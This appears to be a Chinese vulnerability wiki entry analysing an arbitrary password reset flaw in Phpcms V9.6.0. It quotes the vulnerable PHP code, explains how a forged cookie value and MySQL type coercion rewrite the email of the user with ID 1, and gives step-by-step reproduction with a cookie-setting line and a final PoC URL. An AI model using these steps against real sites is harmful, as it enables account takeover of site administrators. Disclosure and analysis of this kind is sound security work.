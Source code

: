 Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

![1.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.0任意密码重置漏洞/media/rId25.png)

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q123456@qq.com`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=aa222a@qq.com

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
